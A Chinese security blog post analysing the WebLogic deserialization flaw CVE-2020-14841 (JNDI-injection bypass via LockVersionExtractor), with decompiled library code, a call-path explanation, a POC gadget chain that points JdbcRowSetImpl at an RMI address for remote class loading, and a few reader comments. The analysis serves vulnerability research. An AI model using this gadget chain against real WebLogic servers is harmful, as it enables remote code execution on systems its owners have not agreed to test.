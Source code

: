 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/qs783sbJSOHgGi8pbpExIA)

简介
--

通过diff 升级包中weblogic的黑名单，我们发现新增`oracle.eclipselink.coherence.integrated.internal.cache.LockVersionExtractor`这个类

LockVersionExtractor 分析
-----------------------

```
package oracle.eclipselink.coherence.integrated.internal.cache;  
  
  
import com.tangosol.io.ExternalizableLite;  
import com.tangosol.io.pof.PofReader;  
import com.tangosol.io.pof.PofWriter;  
import com.tangosol.io.pof.PortableObject;  
import com.tangosol.util.ExternalizableHelper;  
import com.tangosol.util.ValueExtractor;  
import java.io.DataInput;  
import java.io.DataOutput;  
import java.io.IOException;  
import oracle.eclipselink.coherence.integrated.cache.Wrapper;  
import oracle.eclipselink.coherence.integrated.internal.querying.EclipseLinkExtractor;  
import org.eclipse.persistence.mappings.AttributeAccessor;  
  
  
public class LockVersionExtractor implements ValueExtractor, ExternalizableLite, PortableObject, EclipseLinkExtractor {  
    protected AttributeAccessor accessor;  
    protected String className;  
  
  
    public LockVersionExtractor() {  
    }  
  
  
    public LockVersionExtractor(AttributeAccessor accessor, String className) {  
        this.accessor = accessor;  
        this.className = className;  
    }  
  
  
    public Object extract(Object arg0) {  
        if (arg0 == null) {  
            return null;  
        } else {  
            if (arg0 instanceof Wrapper) {  
                arg0 = ((Wrapper)arg0).unwrap();  
            }  
  
  
            if (!this.accessor.isInitialized()) {  
                this.accessor.initializeAttributes(arg0.getClass());  
            }  
  
  
            return this.accessor.getAttributeValueFromObject(arg0);  
        }  
    }  
  
  

```

我们可以从代码上看出来，类似与 cve-2020-2555，用法也都是一样的。触发漏洞的重点在于this.accessor.getAttributeValueFromObject 中。下面选取一个可能的执行路径

```
package org.eclipse.persistence.internal.descriptors;  
  
  
public class MethodAttributeAccessor extends AttributeAccessor {  
    protected String setMethodName = "";  
    protected String getMethodName;  
    protected transient Method setMethod;  
    protected transient Method getMethod;  
  
    public Object getAttributeValueFromObject(Object anObject) throws DescriptorException {  
        return this.getAttributeValueFromObject(anObject, (Object[])null);  
    }  
  
    protected Object getAttributeValueFromObject(Object anObject, Object[] parameters) throws DescriptorException {  
        try {  
            if (PrivilegedAccessHelper.shouldUsePrivilegedAccess()) {  
                try {  
                    return AccessController.doPrivileged(new PrivilegedMethodInvoker(this.getGetMethod(), anObject, parameters));  
                } catch (PrivilegedActionException var5) {  
                    Exception throwableException = var5.getException();  
                    if (throwableException instanceof IllegalAccessException) {  
                        throw DescriptorException.illegalAccessWhileGettingValueThruMethodAccessor(this.getGetMethodName(), anObject.getClass().getName(), throwableException);  
                    } else {  
                        throw DescriptorException.targetInvocationWhileGettingValueThruMethodAccessor(this.getGetMethodName(), anObject.getClass().getName(), throwableException);  
                    }  
                }  
            } else {  
                return this.getMethod.invoke(anObject, parameters);  
            }  
  

```

MethodAttributeAccessor中getAttributeValueFromObject函数缺点在于，只能执行无参的函数，从这点来看，我们很容易的与七月份 cve-2020-14645 联想起来

所以照猫画虎 poc如下

POC
---

```
 // JdbcRowSetImpl  
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();  
        jdbcRowSet.setDataSourceName("rmi://192.168.3.254:8888/xsmd");  
  
        MethodAttributeAccessor methodAttributeAccessor = new MethodAttributeAccessor();  
        methodAttributeAccessor.setGetMethodName("getDatabaseMetaData");  
        methodAttributeAccessor.setIsWriteOnly(true);  
        methodAttributeAccessor.setAttributeName("UnicodeSec");  
  
  
        LockVersionExtractor extractor = new LockVersionExtractor(methodAttributeAccessor, "UnicodeSec");  
  
        final ExtractorComparator comparator = new ExtractorComparator(extractor);  
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);  
  
  
        Object[] q = new Object[]{jdbcRowSet, jdbcRowSet};  
        Reflections.setFieldValue(queue, "queue", q);  
        Reflections.setFieldValue(queue, "size", 2);  
  
        Field comparatorF = queue.getClass().getDeclaredField("comparator");  
        comparatorF.setAccessible(true);  
        comparatorF.set(queue, new ExtractorComparator(extractor));
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

宽字节安全 发起了一个读者讨论 cve 2020-14841 weblogic jndi注入绕过分析复现 附POC 精选讨论内容

![](http://wx.qlogo.cn/mmhead/PiajxSqBRaEL6sNgaM2B7S3e8sehp267g6iaCLzabZ4GlAhbibcSJSTfg/132)

adh

嫖

![](http://wx.qlogo.cn/mmhead/Q3auHgzwzM6PtszGgUMIdQQHHrrvrePgsy1WAa1pZQlIiaWbolNfkJQ/132)

明

为啥只能执行无参函数?? 每天理解 大佬求解

![](http://wx.qlogo.cn/mmhead/Q3auHgzwzM4JojGpq3xGOhATbKnanpibuib7qKce6rPovdRUHu9iaETkQ/132)

等！

求exp

余下1条讨论内容